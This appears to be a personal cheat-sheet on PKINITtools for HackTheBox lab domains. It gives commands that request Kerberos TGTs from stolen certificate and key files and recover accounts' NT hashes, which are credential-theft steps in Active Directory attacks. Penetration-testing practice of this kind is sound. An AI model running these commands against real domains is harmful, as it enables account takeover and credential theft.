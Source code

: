 # pkinittools

## Overview

https://github.com/dirkjanm/PKINITtools

## Usage

Request a TGT using pem files:

```shell
python ~/workspace/tools/PKINITtools/gettgtpkinit.py -cert-pem kBxhoPQf_cert.pem -key-pem kBxhoPQf_priv.pem fluffy.htb/winrm_svc winrm_svc.ccache
```

```shell
faketime "$(ntpdate -q haze.htb | awk '{print $1" "$2}')" python ~/workspace/tools/PKINITtools/gettgtpkinit.py -cert-pem TC6qIhU0_cert.pem -key-pem TC6qIhU0_priv.pem haze.htb/edward.martin edward_martin.ccache
```

Get NT Hash with AS-REP encryption key and TGT

```shell
export KRB5CCNAME=winrm_svc.ccache
faketime "$(ntpdate -q fluffy.htb | awk '{print $1" "$2}')" python ~/workspace/tools/PKINITtools/getnthash.py -key b76d8e7f24c77e01edb9c11497618b8ee5b90ec609707949b48ca0732e771e70 fluffy.htb/winrm_svc
```